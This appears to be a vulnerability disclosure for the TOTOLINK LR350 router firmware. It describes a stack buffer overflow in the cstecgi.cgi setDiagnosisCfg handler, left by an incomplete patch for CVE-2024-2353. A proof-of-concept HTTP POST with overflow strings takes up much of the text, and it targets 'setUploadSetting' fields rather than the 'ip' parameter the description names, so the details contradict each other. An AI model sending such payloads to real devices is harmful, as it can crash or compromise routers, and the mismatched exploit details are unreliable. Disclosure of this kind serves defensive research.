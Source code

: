 # totolink LR350
## Firmware version
totolink LR350 devices through v9.3.5u.6698_b20230810
## description
In totolink LR350 v9.3.5u.6698_b20230810 the file /cgi-bin/cstecgi.cgi setDiagnosisCfg contains a buffer overflow vulnerability. This is  due to incomplete patch for CVE-2024-2353, which only patch command injection vulnerability but not buffer overflow vulnerability
## detail
The bug in function addr 0x420390, binary /cgi-bin/cstecgi.cgi
The parameter 'ip' pass to sprintf if it passes `validity_check`
.Which may cause stack buffer overflow.
![setDiagnosisCfg](image.png)
![validity_check](image-1.png)

## Send package
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Accept: */*
Connection: keep-alive
Host: 127.0.0.1
Content-Type: application/json
Content-Length: 325

{"topicurl": "setUploadSetting", "FileName": "aaawzqaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaawzqwaaaaaaaaaaaaaaaaaaaaawzqwaaaaaaaa", "ContentLength": "aaawzqaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaawzqwaaaaaaaaaaaaaaaaaaaaawzqwaaaaaaaa"}
```
